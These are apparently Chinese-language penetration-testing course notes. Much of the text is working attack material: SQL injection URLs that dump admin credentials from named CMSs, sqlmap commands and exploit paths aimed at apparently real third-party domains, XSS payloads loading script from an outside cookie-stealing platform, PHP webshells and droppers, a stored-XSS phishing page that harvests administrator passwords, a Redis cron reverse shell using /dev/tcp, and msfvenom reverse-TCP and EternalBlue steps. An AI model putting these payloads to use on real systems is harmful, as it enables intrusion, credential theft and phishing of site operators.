## html基础-form表单

如果扫描目标目录为upload.php或者upload_file.asp等目录，直接访问发现没什么回显，这个时候可以尝试写一个文件上传的html文件，将图片马或者一句话木马等上传指向upload.php或者upload_file.asp等文件，然后观察结果
不过这里需要注意，上传表单的名称可能需要进行简单爆破，具体方法见https://www.bilibili.com/video/BV1uA4y1X7Li 1:19:35





## 信息搜集cms



asp和aspx的区别？

一般后台搭载数据库不一样，都是运行在iis8.0或者7.5上，拿到权限后调用权限不同，asp调用net service权限，aspx直接调用cmd权限

## cdn绕过



## vps和虚拟主机




待看

day10


御剑批量扫后台、目录

扫描sql注入




M7lrvCms_Beta3.0.zip

powered by aspcms2.0


下载漏洞

down.asp?FileName=

down.asp?fileup=

具体还需要百度


0day

```
南方良精

/NewsType.asp?SmallClass='%20union%20select%200,username%2BCHR(124)%2Bpassword,2,3,4,5,6,7,8,9%20from%20admin%20union%20select%20*%20from%20news%20where%201=2%20and%20''='


科讯exp

/plus/Ajaxs.asp?action=GetRelativeItem&Key=goingta%2525%2527%2529%2520%2575%256E%2569%256F%256E%2520%2573%2565%256C%2565%2563%2574%25201,2,username%252B%2527%257C%2527%252Bpassword%20from%20KS_Admin%2500

fck
fckeditor/editor/filemanager/browser/default/browser.html?Connector=http%3A%2F%2Fethics.hunnu.edu.cn%2Ffckeditor%2Feditor%2Ffilemanager%2Fconnectors%2Fphp%2Fconnector.php

aspcms
plug/oem/AspCms_OEM.asp   爆后台地址
/plug/comment/commentList.asp?id=0%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now%28%29,null,1%20%20frmasterom%20{prefix}user

aspcms cookie欺骗进后台

cookies:
username=admin; ASPSESSIONIDAABTAACS=IHDJOJACOPKFEEENHHMJHKLG; LanguageAlias=cn; LanguagePath=%2F; languageID=1; adminId=1; adminName=admin; groupMenu=1%2C+70%2C+10%2C+11%2C+12%2C+13%2C+14%2C+20%2C+68%2C+15%2C+16%2C+17%2C+18%2C+3%2C+25%2C+57%2C+58%2C+59%2C+2%2C+21%2C+22%2C+23%2C+24%2C+4%2C+27%2C+28%2C+29%2C+5%2C+49%2C+52%2C+56%2C+30%2C+51%2C+53%2C+54%2C+55%2C+188%2C+67%2C+63%2C+190%2C+184%2C+86%2C+6%2C+32%2C+33%2C+34%2C+8%2C+37%2C+183%2C+38%2C+60%2C+9; GroupName=%B3%AC%BC%B6%B9%DC%C0%ED%D4%B1%D7%E9


intitle:"学生综合管理系统" inurl:"xsweb" 
sqlmap.py -u "http://stu.gxufe.cn/xsweb/pub/temp.aspx?type=menu&nj=wooyun" --tamper "equaltolike.py" --dbms mssql --dbs

清空地址栏，输入：javascript：alert(document.cookie=”id=”+escape(“1556 and 1=1”))，然后去掉？id=1556输入http://soft.XXXXX.edu.cn/list.asp，返回正常

javascript:alert(document.cookie=“id=”+escape（“1556 and 1=2 select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,,27,28,29,30 from admin”）)


'>"></tr></td></li><sCRiPt sRC=http://xss.fbisb.com/123></sCrIpT>
"></div><sCRiPt sRC=http://xss.fbisb.com/123></sCrIpT><"
'>"></tr></td></li><sCRiPt/SrC=//xss.fbisb.com/123>
'>"></tr></td></li></textarea><sCRiPt/SrC=//xss.fbisb.com/123>
\u003cimg src=x onerror=s=createElement(%27script%27);body.appendChild(s);s.src=http://xss.fbisb.com/6reN;\u003e
'>"></tr></td></li><sCRiPt/SrC=//xss.fbisb.com/123>
"></div><sCRiPt sRC=http://xss.fbisb.com/123></sCrIpT><"
</tExtArEa>'"><sCRiPt sRC=http://xss.fbisb.com/123></sCrIpT>
织梦exp
/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\%27%20or%20mid=@`\%27`%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`%20limit+0,1),5,6,7,8,9%23@`\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=6887

http://xss.fbisb.com/
http://xss.fbisb.com/xss.php?do=keepsession&id=123&url=http%3A//127.0.0.1/caonihaoshabi&cookie=caonihaoshabi


tpshop

http://www.hzgalen.com/index.php/Home/Uploadify/preview
data:image/php;base64,PD9waHAgZXZhbCgkX0dFVFt4XSk7Pz4=


ecshop


2.x
Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}


3.x
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:289:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

```


## sql注入

### access数据库

access数据库：微软发布的小型数据库管理系统。

mdb文件打开工具：
辅臣数据库浏览器
破障浏览器

形象比喻：  数据库->房间
             	  id   ->门牌号

判断注入点：
and 1=1   and 1=1 
or 1=1    or 1=1

判断数据库类型：
and exists (select * from msysobjects)>0 (注：msysobjects是Access独有的系统表)
and exists (select * from sysobjects)>0  (注：sysobjects是SqlServer独有的系统表)
判断数据库表：
and exists (select * from admin)  判断是否存在admin表，回显正常则证明存在admin表。
判断字段名：
and exists (select passwd from admin)  判断admin表里是否存在passwd字段，正常回显则存在
判断字段长度：
order by 10（不断尝试，同mysql）
判断字段值
and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin   判断回显位置，如：3,5
admin 1=2 union select 1,2,user,4,passwd,6,7,8,9,10 from admin

番外篇：
判断账户密码长度：
and (select len(user) from admin)=5 	正常返回，证明账户长度为5
and (select len(passwd) from admin)=5 	正常返回，证明密码长度为5
猜解管理员账号的第一个数据
 通过判断ascii码来判断
 and (select top 1 asc(mid(user,1,1)) from admin)>100  返回正常说明大于，不正常说明不大于
 and (select top 1 asc(mid(user,1,1)) from admin)>50   返回正常说明大于
 and (select top 1 asc(mid(user,1,1)) from admin)=97   返回正常说明等于97，97ascii码对应字母a
依次类推：
猜解管理员账号的第二个数据
 and (select top 1 asc(mid(user,2,1)) from admin)>100  返回正常说明大于，不正常说明不大于
 。。。

工具篇：
啊D
明小子
Pangolin(穿山甲)
Havij(胡萝卜)
sqlmap

拓展：
偏移注入：偏移注入的产生主要是用来解决表名猜到，列名猜不到的情况
例如：
http://127.0.0.1:99/test/1.asp?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin
http://127.0.0.1:99/test/1.asp?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,* from admin
http://127.0.0.1:99/test/1.asp?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,* from admin
。。。
http://127.0.0.1:99/test/1.asp?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin
逐渐向前偏移，当偏移到16时，有回显，此时开始带入计算公式：

```
22-16=6
10+6*2=22
4+6*3=22
union select 1,2,3,4,5,6,7,8,9,10,a.id,b.id,* from (admin as a inner join admin as b on a.id=b.id)
union select 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)
```


值得注意的是，这里会爆出来随机的字段值。


sql注入如果使用单引号' 时候可能会被waf拦截，可以使用 / 除以来尝试

过安全狗




360

%0a、%a0代替空格



### mssql



1433端口

注意如果可以在mssql数据库的话，需要同时将数据库文件和日志文件同时下载下来才能正确导入打开

数据库后缀data.mdf

日志后缀data_log.ldf


sa管理员，默认允许远程连接




### mysql注入


特殊时候可以通过注册账号，如admin，当网站防护不严格时候，可以通过自己注册的admin账号登录，并且具备数据中admin相同的权限。


#### **宽字节注入**

当输入'单引号 时候，会被转义\  ，这时候可以尝试添加%df把通过组合成16进制的中文过掉转义字符

%df，针对gbk编码，遇到utf-8就废了，暂时没有好方法去过utf-8

魔术引号特性已自 PHP 5.3.0 起废弃并将自 PHP 5.4.0 起移除。在php5.2版本中默认开启魔术引号

注意：需要在burp抓包时候添加%df测试，不能在web表单提交处添加


写入一句话木马条件：

```
root权限

魔术引号关闭

Windows权限（Linux下mysql一般权限较低）

根目录
```

#### cookie注入

请求参数提交到cookie中，尝试过waf拦截




#### http请求头注入

请求头注入产生原因：

服务器在记录请求信息时候未作严格过滤，直接把相关请求信息存储到数据库中，导致产生注入。

一般是在登录、留言、修改资料、提现等处会存在记录IP情况

常见http请求中存在注入的参数：

```
user-Agent
Referer
X-Forworded-For
Client-ip
```



#### 伪静态注入

尝试去掉末尾html看是否正常回显

然后在末尾数字加单引号尝试闭合，或者直接数字后面-1

或者构造闭合，但是需要尝试是那种脚本语言写的，另外参数名称也需要尝试，不一定是id，也能是sid等

#### dns注入

通过dnslog回显记录查询结果，需要借助dnslog平台

需要root权限（要借助load_file()函数）

如：   and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='jian' limit 0,1),'.tunxf1.dnslog.cn\\abc'))),1,1)--+	#查表名

#### 二阶注入

注入页面和回显页面不在同一个页面，即A写入的数据，被B来调用

例如：骑士cms 或 sqli-labs的例子

通过修改admin'#密码达到修改admin密码的目的


#### app注入

有时候需要关闭防火墙，不然可能及时配置好代理，也不能抓到


### Oracle

oracle数据库简介
  oracle数据库系统是美国ORACLE公司（甲骨文）提供的数据库软件产品。是目前世界上使用最为广泛的数据库管理系统。广泛用于金融、证券、交通、旅游、政府等等大型企业或部门。基于“C/S”架构。

合天实验室 靶机

oracle数据库特点：
1、支持多用户、大事务量的处理
2、数据安全性和完整性的有效控制
3、支持分布式数据处理
4、移植型强

SQL注入形成原因：
  由于程序员的安全意识薄弱，在编写代码的时候未对用户输入的特殊字符进行过滤处理，导致将特殊字符带入到数据库中进行交互。

Oracle注入的时候，union语句的前后类型必须匹配，否则查询不成功。oracle类型常见的有字符类型、数字类型、日期类型等。一般攻击者能用来做union查询并显示的是字符类型和数字类型。oracle并不会自己做数据类型转换，但是oracle中可以用NULL匹配所有类型，所以攻击者可以先全部“select NULL”，然后逐一检查待查询的数据类型。
另外，oracle注入中，select语句后面必须跟表名，否则无法查询成功。“select 1,2,3”这样的语句在sql server 和mysql 中是可以成功执行的，但是在oracle中后面必须加表名，如“select 1,2,3 from admin”方可。

1、判断是否存在注入
  and 1=1 
  and 1=2
2、判断是否是oracle数据库：
  and (select count(*) from dual)<>0 -- 返回正常则表示为oracle数据库。（注意：这里dual表和user_tables是oracle默认的系统表）     亦可如下判断：and exist(select * from dual)
3、判断字段长度：
  order by 或者 group by
4、列出字段数目，如：6个
  and 1=1 union select null,null,null,null,null,null from dual --  返回正常
  依次将null更换为'null' 当回显正常时，证明此处为字符型。否则可能是数字型，或者其他类型。数字型的可直接null
5、读取oracle数据库版本：（假设该oracle数据库存在6个表，索引值在第二的位置）
  and 1=2 union select 1,(select banner from sys.v_$version where rownum=1),3,4,5,6 from dual --
   读取oracle当前用户：
  and 1=2 union select 1,(select sys_context('userenv','current_user') from dual),3,4,5,6 from dual --
   读取当前网站操作系统版本：
  and 1=2 union select 1,(select member from v$logfile where rownum=1),3,4,5,6 from dual --
6、

爆出第一个数据库名

and 1=2 union select 1,(select owner from all_tables where rownum=1),3,4,5,6 from dual --

依次爆出所有数据库名,假设第一个库名为first_dbname

and 1=2 union select 1,(select owner from all_tables where rownum=1 and owner<>'first_dbname'),3,4,5,6 from dual --

暴表
  and 1=2 union select 1,table_name,3,4,5,6 from user_tables --
  值得注意的是，因为oracle比较大，表可能非常多，同时又有长度要求，所以容易出现因为长度不够使得有些表未能显示出来。
7、暴字段（假设上步暴出了admin表）
  and 1=2 union select 1,column_name,3,4,5,6 from cols where table_name=admin --  (可能需要16进制表示)
8、暴字段值（假设username和password）
  and 1=2 union select 1,username,3,4,5,6 from admin --
  and 1=2 union select 1,password,3,4,5,6 from admin --


### postgresql


postgresql、Oracle、sqlserver几个数据库补全方式：

union select 补全方式不是用1，2，3等等， 而是用null,null,null....


当需要查询的东西出不来时候，可以尝试转化为ascii或者16进制等进行查询


### sqlmap使用技巧


sqlmap -u "http://xxx.xx/index.php?id=1" --current-db

sqlmap -u "http://xxx.xx/index.php?id=1" -D xycms --tables




sqlmap -u "http://xxx.xx/index.php?id=1" -D xycms --tables --count

统计xycms数据库里每个表里有多少数据



sqlmap -u "http://xxx.xx/index.php?id=1" -D 数据库 --tables --search  -C pwd



--os-shell	#执行**交互式shell**

需要配合查看下是不是dba权限，如果是的话，则可以执行系统命令

--os-cmd	#执行一条操作系统命令




--sql-shell	#作用是可以执行交互式sql命令，比如写入一句话木马，或者读取源文件等

--sql-query= "select user()"	#执行一条sql语句 




> --level 1	//测试等级（1-5）默认是1，cookie注入是2，http头（user-agent/referer）注入是3
>
> --risk 1	//执行测试的风险（1-3，默认为1） 1会测试大部分的测试语句，2会增加基于事件的测试语句sql，3会增加OR语句的SQL注入测试
>
> ```
> --safe-url="url"        设置正确的URL，因为如果一直尝试错误的URL可能会被服务器拉黑，过几次登下正确的防止这个发生
> --safe-freq=10          尝试的与正确的URL的交换频率
> ```
>
> --safe-freq=3
>
> //访问3次失败之后，会自动访问一次正常url，以往被封。一般为3
>
> --random-agent 
>
> //随机从sqlmap_user-agents.txt库选择代理
>
> --delay=1
>
> //每个http请求之间延迟1s发送，以防拉黑
>
> --time-sec=2
>
> //设置盲注时间为2秒（默认为5s）
>
> --tamper “charencode.py”
>
> //用 url 编码一次你的 payload


**从数据库服务器中读取文件**

--file-read	#会把读取的文件下载到本地

当数据库为MySQL、PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

sqlmap.py -u "http://192.168.2.3:81/about/show.php?lang=cn&id=22" --file-read="C:\Inetpub\wwwroot\mysql-php\1.php"


**文件上传**

--file-write,--file-dest

当数据库为MySQL、PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

sqlmap.py -u "http://192.168.2.129/article.php?id=5" --file-write="C:\1.php" --file-dest="/var/www/html/x.php"


## webshell管理

菜刀、蚁剑、冰蝎、特斯拉

针对webshell管理工具存在后门情况，需要具体抓包分析，是否有将木马回传到后门服务器，有一些可能需要在肉鸡上抓包看，本地抓包看不到。

另外源码打包、脱裤等。需要借助打包马、大马等


## 上传漏洞

### 解析漏洞

#### ii6.0解析漏洞

1、目录解析

/xx.asp/xx.jpg

2、文件解析

shell.asp;jpg

其它几种后缀

```
/cracer.asa
/cracer.cer
/cracer.cdx
```

#### iis 7.0/ iis 7.5/ iis 8.0/8.5/10.0解析漏洞

在默认Fast-CGI开启情况下，图片马后面添加./php能被当作php执行

#### apache解析漏洞

1、Apache会默认从右往前解析，遇见不识别的就往前解析。  例如：1.php.234.aaa文件会被解析成1.php

2、如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch “php.jpg"> 
SetHandler application/x-httpd-php 
</FilesMatch>
```

然后再上传php.jpg，1.php.jpg的木马, 这样php.jpg就可解析为php文件。


#### Nginx<8.03 解析漏洞

在一个文件路径(/1.jpg)后面加上/1.php会将 /1.jpg/.php 解析为 php 文件。



```php
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```

或者

```php
<?php $f=fopen("shell.php","w");fwrite($f,"?><?php @eval(\$_POST[x]);?><?");?>
```


### 一些上传漏洞

js

mime

黑白名单

有时候上传后需要没有当前目录没有权限，可以尝试目录穿越

双文件上传

竞争上传

# day20编辑器漏洞

目录扫描

蜘蛛爬行


找上传点，找对应版本漏洞，配合上传解析漏洞等拿shell

后台编辑时候发现没有编辑器，可以尝试审查元素，用低版本打开


# day21xss

反射型xss

dom型xss

存储型xss


1. 挖洞位置

    反射型：

    ​	注入点

    ​	搜索框

    存储型：

    ​	一切可以能提交到数据库的位置：

    ​	用户注册位置、修改资料、提交上传文件处

    ​	留言板

2. 标签闭合

    盲打	//当不知道前面标签是怎么闭合的时候，可以多尝试几个标签进行闭合

    ```html
    '"/></div></td></tr></textarea><script>alert(1)</script>
    ```

    可以在GitHub上搜一下标签闭合

3. 长度限制绕过

    前端通过修改js改变长度

    后端找短域名的xss平台

4. 防御绕过

    利用hackbar插件进行实体编码或者字符串拼接等

    

目标站点如果用的https协议，那么xss也需要走https才可以


## xss钓鱼



httrack克隆网站更好用，不会出现编码错误问题。

apt-get install httrack


创建数据库dd，admin表

```mysql
mysql> create database dd;
mysql> use dd;
mysql> create table admin(username char(50),password char(50));
mysql> select * from admin;
```



使用httrack克隆一个目标后台网站



php文件



```php
<?php
header("content-type:text/html;charset=utf-8");
include 'tz.php';
	//1.连接
	//@是阻止警告输出
	$link = @mysqli_connect('localhost','root','root','dd') or exit('连接失败！原因:' . mysqli_connect_error() . '错误号：' . mysqli_connect_errno() );
	if($_POST){	//判断是否是POST请求，如果是POST就进来
		//$_POST必须大写，接受POST请求
		//这个是三元运算符 判断是否有值，如果没有那么就为空
		$username = isset($_POST['username']) ? $_POST['username']: '';
		$password = isset($_POST['password']) ? $_POST['password']: '';
		//	2.设置字符集
		mysqli_set_charset($link, 'utf8');
		//	3.sql语句
		$sql = "INSERT INTO admin(username, password) VALUES ('{$username}', '{$password}')";
		//	4.发送
		$result = mysqli_query($link, $sql);
		//	如果执行成功和受影响行大于0
		if($result && mysqli_affected_rows($link) > 0 ){
			return mysqli_insert_id($link) ? mysqli_insert_id($link) : mysqli_affected_rows($link);
		}
		//	5.断开链接
		mysqli_close($link);	
	}
```

设置一个跳转的页面tz.php



```php
<script>window.location.href='http://192.168.200.128/mymps/mymps/';</script>
```

然后将几个文件同时放到一个目录文件下：



然后登录时候，第一次无论收到什么用户名密码都会被记录到钓鱼的后台数据库，然后随机就会跳转真实的后台地址。



将下面代码放到后台留言板中，即可实现每次管理员每次访问留言板时，跳转到登录页面，实现钓鱼。

```php
<script>window.location.href='http://192.168.10.112/dvwa/login.php';</script>
```


但是以上方法还是有一个弊端，就是管理员每次访问都会触发跳转，这不免让人产生怀疑。。。

这里可以借助xss平台，既实现了隐藏IP，又可以解决每次都跳转的问题

如下：

1、在xss平台【我的模块】里，新建一个钓鱼模块



2、在【我的项目】中新建一个项目test-diaoyu，引用前面的diaoyu模块

然后将下面代码留到存在xss的留言板处即可



3、当管理员再次访问留言板时候就会继续跳转，如果在钓到管理员密码后，删除xss项目，管理员后台就不会再跳转。。


# day23PHP漏洞

## 文件包含

几个文件包含函数

```
require
require_once
include
include_once
```

**一些利用方法**

1. 包含图片马拿webshell
2. 读取敏感信息，如	http://127.0.0.1/a.php?x=/etc/passwd
3. 包含日志Getshell

**一些绕过方法：**

1、%00截断包含(PHP<5.3.4)

magic_quotes_gps=off 才可以，否则%00会被转义

2、多个/./././././.导致服务器溢出绕过	

?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
(php版本小于5.2.8(?)可以成功

## 代码执行

php中常见的代码执行函数

eval()、assert()

形如一句话木马`<?php @eval($_POST["cmd"]);?>`


动态代码执行

```php
<?php
$a = $_GET['a'];
$b= $_GET['b'];
$a($b);
?>

http://127.0.0.1/x.php?a=system&b=ipconfig
执行系统命令ipconfig
http://127.0.0.1/x.php?a=assert&b=phpinfo();
代码执行获取phpinfo信息    
```

## 命令执行

见https://blog.csdn.net/weixin_39934520/article/details/109231480

exec()、system()、 shell_exec()、passthru()、反引号``

形如：

```php
<?php 
$x=$_GET['x'];
echo shell_exec($x);
?>

http://127.0.0.1/x.php?x=ipconfig
执行系统命令ipconfig
```

## 反序列化漏洞

php反序列化漏洞，又叫php对象注入漏洞。


序列化与反序列化，php中有两个函数serialize() 和unserialize()

serialize()把对象转变成一个字符串，保存对象的值方便传递与使用；

unserialize()从已存储的表示中创建PHP的值，从序列化后的结果中恢复对象（object）。	


==反序列化漏洞==：当传给 unserialize() 的参数可控时，我们可以通过传入一个精心构造的序列化字符串，从而控制对象内部的变量甚至是函数。

## 伪协议

php://input	将文件包含漏洞变成代码执行漏洞

data:			  URL代码执行

php://filter	读取php源码内容

zip://

phar://

## Thinkphp框架漏洞

工具漏洞利用

手工测试


# day24jsp中间件漏洞

struts2

weblogic

ssrf

tomcat和weblogic

可以多封装几个木马到war包

```
jar -cvf shell.war 1.jsp 2.jsp 3.jsp 4.jsp
//将1-4个木马封装到shell.war
```

访问目标 http://target/shell/1.jsp等


java反序列化漏洞

**序列化就是把对象转换成字节流**，便于保存在内存、文件、数据库中；
**反序列化**即逆过程，**由字节流还原成对象**。

Java中的ObjectOutputStream类的writeObject()方法可以实现序列化，类ObjectInputStream类的readObject()方法用于反序列化。


## redis漏洞

默认6379端口


### Redis 漏洞简介以及危害

Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致以下风险：

1、任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。

2、利用 Redis 自身的提供的config 命令，可以进行写入木马文件，执行flushall等恶意操作（Flushall 命令用于清空整个 Redis 服务器的数据(删除所有数据库的所有 key )）。

3、同时可以将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。

简单说，漏洞的产生条件有以下两点：

（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源 ip 访问等相关安全策略，直接暴露在公网；

（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。


我们可以通过以下命令查看是否设置了密码验证：

```
127.0.0.1:6379> CONFIG get requirepass
1) "requirepass"
2) ""
```

默认情况下 requirepass 参数是空的，这就意味着你无需通过密码验证就可以连接到 redis 服务。

你可以通过以下命令来修改该参数：

```
127.0.0.1:6379> CONFIG set requirepass "runoob"
OK
127.0.0.1:6379> CONFIG get requirepass
1) "requirepass"
2) "runoob"
```

设置密码后，客户端连接 redis 服务就需要密码验证，否则无法执行命令。

需要使用**AUTH**命令认证密码：

```
127.0.0.1:6379> AUTH password
```


### 漏洞环境搭建

靶机：192.168.100.134

攻击：192.168.100.129


安装redis服务：

```
（1）从官网下载源码的压缩包：
     wget http://download.redis.io/releases/redis-3.2.11.tar.gz 
（2）下载完成后，解压压缩包：
     tar xzf redis-3.2.11.tar.gz；
（3）然后进入解压后的目录：cd redis-3.2.11，输入make并执行；
（4）make结束后，进入src目录：cd src，将redis-server和redis-cli拷贝到/usr/bin目录下（这样启动redis-server和redis-cli就不用每次都进入安装目录了）：
（5）返回目录redis-3.2.11，将redis.conf拷贝到/etc/目录下：
（6）编辑etc中的redis配置文件redis.conf，如下图所示：
     去掉ip绑定，允许除本地外的主机远程登录redis服务：
      # 127.0.0.1   
     关闭保护模式，允许远程连接redis服务：
      protected-mode no
（7）使用/etc/目录下的reids.conf文件中的配置启动redis服务：
      redis-server /etc/redis.conf 
      iptables -F
如果给Redis设置密码，可以通过修改/etc/redis.conf 文件来配置密码，修改完重启服务
requirepass  admin
```




### 漏洞利用

三种漏洞利用方式

#### 1、写 webshell 文件实现远程控制

一旦控制 redis 后，优先想到的是写 webshell，容错性是它最大优势。假定目标是 PHP 环境、web 的根目录为/var/www/html，按前面步骤尝试写个普通 PHP 脚本看下是否能成功解析：

本实验，由于centos的apache有点问题，用kali作为目标机，在目标机kali开一下apache服务

service httpd apache2

然后在攻击端执行如下： 

```bash
$ redis-cli -p 6379 -h 192.168.100.134
192.168.100.134:6379> CONFIG SET dbfilename phpinfo.php
192.168.100.134:6379> CONFIG SET dir "/var/www/html"
192.168.100.134:6379> CONFIG SET rdbcompression no
192.168.100.134:6379> SET phpinfo"\n\n <?php phpinfo(); ?> \n\n" NX
192.168.100.134:6379> save
```






#### 2、计划任务反弹shell

将反弹shell脚本写入/var/spool/cron/

注意有些Linux版本可能是需要写到/etc/crontab

```bash
set xx "\n* * * * * bash -i >& /dev/tcp/192.168.100.134/9999 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```




#### 3、导入ssh公钥

Redis 存在未授权访问或者弱口令并且开启了 ssh 服务的情况下，如果运行 redis 的用户是 root 用户，攻击者可以成功将自己的**公钥**写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接登录目标服务器。

01 在攻击方生成一对 ssh key

```bash
ssh-keygen -t rsa
# 默认情况下，生成后在用户的家目录下的 .ssh 目录下
```



02 利用msf的auxiliary/scanner/redis/file_upload 模块上传文件

```
cd /root/.ssh/
cp id_rsa.pub  authorized_keys
```



注意为了不破坏 ssh public key，在authorized_keys文件内容前后添加几个 `\n\n` 



03 使用密钥连接

```
cd /root/.ssh
ssh -i id_rsa root@192.168.100.129
```



# day25业务逻辑漏洞




# day26GetShell总结




# day28提权

## windows提权

### 简介



### 第三方提权

windows服务器宝塔提权




### 溢出提权

==漏洞提权：最直接的一种提权方式==

setp 执行环境变量





```
先提取未打补丁的漏洞编号
找到该编号的漏洞利用程序
注意：有时候找到的漏洞利用程序未必能执行成功
如果不行多找几个版本来利用

2003	pr巴西烤肉、ms16-032、ms18-8120
2008	ms16-075、ms15-015、ms18-8120
2012	同2008
```


### msf提权

#### suggester模块提权

两个提权模块，一般用第二个

```
use post/windows/gather/enum_patches
set session 1
run

use post/multi/recon/local_exploit_suggester
set session 2 
exploit
```

演示：

kali生成一个exe木马放到目标服务器

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.80.103 lport=1122 -f exe > 1.exe
```

msf建立监听会话

```
msf > handler -H 192.168.200.129 -P 1122 -p windows/meterpreter/reverse_tcp
```

目标端执行exe，kali端建立一个meterpreter的session会话，当前权限为service

搜索 suggester



使用3， use post/multi/recon/local_exploit_suggester








#### 绕过uac提权

注意：需要管理员以上权限才可以

> use exploit/windows/local/bypassuac
> set session 3  #shell回话的id
> run
>
> use exploit/windows/local/ask
> set session 3 
> run


#### 假冒令牌获取提权

> 在拿到shell回话后执行：
> meterpreter下：
> use incognito
> list_tokens -u 
> Execute –cH –f ./potato.exe
> list_tokens -u 
> impersonate_token “nt /system”
> shell
> whoami 查看是否是管理员权限


## Linux提权

> 1. 溢出提权
> 2. suid提权
> 3. 计划任务
> 4. 环境变量劫持
> 5. 第三方软件（如redis）


关于溢出提权，当使用脏牛提权后，管理员root可能就登陆不上了，这时候需要给管理员恢复一下他的root账号

将/etc/passwd里面权限做下修改就行了

如下面，分别添加一个hack用户、一个hahaha用户

```
[root@localhost ~]# useradd hack
[root@localhost ~]# passwd hack
更改用户 hack 的密码
新的 密码：

```

修改/etc/passwd里面hack的内容为 `hack:x:0:0:`



发现hack用户已经拥有root权限了

**后续**

当在kaili获取到一个meterpreter后，可以通过这里进行端口转发到kali端口，然后进行远程连接

```
meterpreter>portfwd add 3379 -r 127.0.0.1 -p 3389
kali>rdesktop 127.0.0.1:3379
```

同理在Linux提权时候，有时候也可以借助redis提权，如果redis仅限于本地127.0.0.1访问时候，这个时候可以通过kali进行一个端口转发，前提是拿到一个meterpreter后，执行如下：

```
meterpreter>portfwd add 6378 -r 127.0.0.1 -p 6379
```

如果kali没有

```
执行apt-get update
apt-get install redis
kali>redis-cli -h 127.0.0.1 -p 6378 -p %90
```

尽量用kali里的rdesktop去登录远程肉鸡，避免被人反搞


centos安装apache、php、mysql服务

```
yum -y install httpd php php-mysql mysql mysql-server

service httpd start
service mysql start
```


# day31内网渗透

常见打进内网方法：

1. web服务器
2. 钓鱼+社工
3. 网络服务（smb、ftp等）漏洞利用、密码爆破、服务欺骗
4. 中间件漏洞、攻击
5. 破解内网wifi
6. 物理环境





## msf

### 网络拓扑




### 添加路由






### 内网穿透

前提可以通过执行msf生成的木马使目标机器win2008上线

添加静态路由

探测内网主机存活


端口扫描


下面可以建立socks代理


执行

```
vi /etc/proxychains.conf
```


使用proxychains挂socks代理扫描


再通过win7作为跳板机，挂socks代理


再次编辑proxychians代理配置


这时候可以通过portfwd进行端口转发，将目标机器服务转发到本地


### 案例

目标：通过kali访问到win7的IP2服务开启情况


kali通过ms17-010漏洞获取一个meterpreter

```
oot@kali:~# msfconsole
msf > search ms17-010
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set rhost 192.168.200.128
# 注意这里需要设置一个payload【generic/shell_reverse_tcp】用于反弹一个meterpreter，不然得到一个cmd，功能太少
msf exploit(ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > run
```

另外说下，如果目标没有回连的路由可能默认的payload【generic/shell_reverse_tcp】不一定能执行成功，获取一个会话，这时需要用直连的payload==【generic/shell_bind_tcp】==，同理meterpreter的payload为==【windows/x64/meterpreter/bind_tcp】==


添加路由


后面不再重复了，同前面内网穿透


## ngrok内网穿透

### 前言

在做渗透时候，有时候需要用到内网穿透，让外网可以正常访问我们的资源，比如配合kali做下端口转发，非常好用。下面来看看ngrok这款工具，重点是免费！

### Ngrok安装

#### 一、下载Ngrok

官网地址：https://ngrok.com/
进入官网后，注册账号并登录，另外可以使用GitHub账号进行登录
